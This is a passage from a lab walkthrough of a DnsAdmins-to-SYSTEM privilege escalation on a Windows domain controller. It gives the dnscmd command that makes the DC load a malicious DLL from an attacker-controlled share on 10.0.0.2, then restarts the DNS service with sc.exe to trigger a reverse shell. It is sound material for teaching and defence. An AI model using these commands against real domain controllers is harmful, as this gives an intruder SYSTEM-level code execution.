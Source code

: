 ![](<../../.gitbook/assets/Screenshot from 2018-11-11 17-30-47.png>)

### Abuse DNS with dnscmd

Now that we have the DLL and we checked that it is working, we can ask the victim `DC01` to load our malicious DLL (from the victim controlled network share on host 10.0.0.2) next time the service starts (or when the attacker restarts it):

{% code title="attacker@victim.memberOfDnsAdmins" %}
```csharp
dnscmd dc01 /config /serverlevelplugindll \\10.0.0.2\tools\dns-priv\dnsprivesc.dll
```
{% endcode %}

The below looks promising and suggests the request to load our malicious DLL was successful:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-55-59.png>)

{% hint style="info" %}
`dnscmd` is a windows utility that allows people with `DnsAdmins` privileges manage the DNS server. The utility can be installed by adding `DNS Server Tools` to your system as shown in the below screengrab.
{% endhint %}

![](<../../.gitbook/assets/Screenshot from 2018-11-11 17-04-48.png>)

The below command on the victim further suggests that our request was successful and the registry value `ServerLevelPluginDll` points to our malicious DLL:

```csharp
# note that as attacker you cannot check this on a DC since you do not have yet access to the system. Because this is a lab environment, I am checking the registry from the DC itself.
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-51-21.png>)

### Getting code execution with NT\SYSTEM

Now the next time dns service starts, our malicious DLL should be loaded to the dns.exe process and a reverse shell should be sent back to our attacking system, so let's go and restart the DNS service:

{% code title="attacker@victim" %}
```csharp
sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```
{% endcode %}

By this point, I should have received a reverse shell, but unfortunately, I did not.

After checking the DNS logs on the `DC01` I saw the below error, suggesting there was something off with my DLL:

![](<../../.gitbook/assets/Screenshot from 2018-11-11 21-45-51.png>)
